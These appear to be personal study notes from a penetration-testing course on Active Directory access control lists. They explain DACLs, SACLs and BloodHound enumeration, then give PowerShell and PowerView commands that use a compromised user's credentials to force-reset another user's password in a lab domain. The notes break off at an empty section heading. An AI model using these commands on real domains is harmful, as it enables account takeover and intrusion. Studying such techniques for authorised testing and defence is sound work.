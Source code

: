 
<br />

## Access Control Lists

There are two types of ACLs:
1. Discretionary Access Control List (DACL): Defines which security principals are granted or denied access to an object
2. System Access Control List (SACL): Allow administrators to log access attempts made to secured objects

An Access Control Entry (ACE) is an element in an ACL that names a user or group and the level of access they have to a given securable object  

<br />

## ACL Enumeration

Use BloodHound

Search for a compromised user as our starting node  
The "Outbound Object Control" section in Node Info will show us objects we have control over  
Right Clicking a line between nodes in BloodHound and clicking the help menu will bring up an explanation of what the line means  

<br />

## ACL Abuse

### Changing a Password

In this module we are given a hypothetical scenario where we are authenticated as a user named "wley" who has rights to change the password for a different user named "damundsen"  

Here is how we can change that user's password:  

Create a PSCredential Object ("wleypass123" is wley's password in this scenario"):
```Powershell
$SecPassword = ConvertTo-SecureString 'wleypass123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Create a SecureString Object:
```Powershell
$damundsenPassword = ConvertTo-SecureString 'abc123!!!' -AsPlainText -Force
```

Changing the damudsen's password:
```Powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

### Adding User to a Group
